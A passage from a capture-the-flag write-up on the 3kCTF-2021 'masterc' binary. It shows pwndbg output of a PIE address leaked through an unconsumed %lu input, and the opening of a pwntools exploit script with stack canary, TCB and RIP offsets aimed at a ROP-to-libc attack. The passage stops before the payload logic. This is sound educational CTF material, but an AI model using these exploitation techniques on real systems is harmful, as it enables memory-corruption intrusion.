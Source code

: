 Therefore, we can preserve the initial value of `num` by supplying an "inappropriate" value for the `"%lu"` format string such as `"a"`.

```
pwndbg> r
Starting program: /CTF/3kctf-2021/masterc/bin/masterc
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the size : 1
Enter the number of tries : 1
Enter your guess : a
Sorry, that was the last guess!
You entered 93824992236921 but the right number was 418023495

pwndbg> telescope 93824992236921
00:0000│   0x555555555579 (set_number_of_tries+39) ◂— mov    dword ptr [rbp - 4], eax

pwndbg> xinfo 93824992236921
Extended information for virtual address 0x555555555579:

  Containing mapping:
    0x555555555000     0x555555556000 r-xp     1000 1000   /CTF/3kctf-2021/masterc/bin/masterc

  Offset information:
         Mapped Area 0x555555555579 = 0x555555555000 + 0x579
         File (Base) 0x555555555579 = 0x555555554000 + 0x1579
      File (Segment) 0x555555555579 = 0x555555555000 + 0x579
         File (Disk) 0x555555555579 = /CTF/3kctf-2021/masterc/bin/masterc + 0x1579

 Containing ELF sections:
               .text 0x555555555579 = 0x555555555220 + 0x359
```

As seen above, we've managed to preserve the value of `num` by providing `"a"` as an input. Furthermore, the program logic (conveniently) provides us with the value of our guess thus leaking a PIE address. From this point on, this challenge can be tackled as a "textbook" ROP challenge i.e. leak libc base, return to one gadget/system/execve. The following script implements our exploit.

```python
from pwn import *


HOST = "masterc.2021.3k.ctf.to"
PORT = 9999
FLAG_FORMAT = "3k{\w+}"
REMOTE_FLAGPATH = "/flag.txt"

CHALLENGE = "./bin/masterc"
TARGET_LIBC = "./bin/libc-2.31.so"

TCB_OFFSET = 0x7FFFF77C2700 - 0x7FFFF77C1ED0
STACK_GUARD_OFFSET = TCB_OFFSET + 0x28
CANARY_OFFSET = 0x7FFFF77C1EE8 - 0x7FFFF77C1ED0
RIP_OFFSET = CANARY_OFFSET + 8 + 8

SIZE_PROMPT = b"Enter the size : "
TRIES_PROMPT = b"Enter the number of tries : "
GUESS_PROMPT = b"Enter your guess : "
INPUT_PROMPT = b"> \n"

GUESS_MARKER = b"You entered "
RIGHT_MARKER = b"right number was "

DUMMY_CANARY = p64(0xDEADBEEFDEADBEEF)

```